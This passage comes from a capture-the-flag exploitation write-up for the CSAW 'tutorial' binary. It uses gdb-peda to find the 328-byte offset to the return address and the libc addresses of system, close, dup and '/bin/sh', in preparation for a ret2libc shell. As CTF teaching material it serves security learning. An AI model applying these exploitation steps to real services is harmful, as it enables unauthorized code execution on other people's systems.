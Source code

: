 gdb:
```
Thread 2.1 "tutorial" hit Breakpoint 1, 0x0000000000400f69 in ?? ()
gdb-peda$ x/x $rbp-0x140
0x7fffffffe380:	0x0000000000000000
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffe4d0:
 rip = 0x400f69; saved rip = 0x401053
 called by frame at 0x7fffffffe500
 Arglist at 0x7fffffffe368, args: 
 Locals at 0x7fffffffe368, Previous frame's sp is 0x7fffffffe4d0
 Saved registers:
  rbp at 0x7fffffffe4c0, rip at 0x7fffffffe4c8
```

python:
```
>>> 0x7fffffffe4c8 - 0x7fffffffe380
328
```

So we know we have 328 bytes worth of data before we reach the return address.

Now we will need the following things from libc: `close` `dup` `system` `string_of"/bin/sh"` (I'll explain why we need `dup` and `close` later). To do this, we can simply find the difference between there addresses and th eleaked address using gdb.

In gdb:
```
gdb-peda$ b write
Breakpoint 1 at 0x400ae0
gdb-peda$ r 44866
Starting program: /Hackery/ctf/csaw/pwn/tutorial/tutorial 44866
```

In another terminal:
```
$	nc 127.0.0.1 44866
```

In gdb:
```
Thread 2.1 "tutorial" hit Breakpoint 1, 0x0000000000400ef2 in ?? ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff78516a0 <__libc_system>
gdb-peda$ p close
$2 = {<text variable, no debug info>} 0x7ffff7904f10 <close>
gdb-peda$ p dup
$3 = {<text variable, no debug info>} 0x7ffff7904f70 <dup>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7996c40 --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ c
```
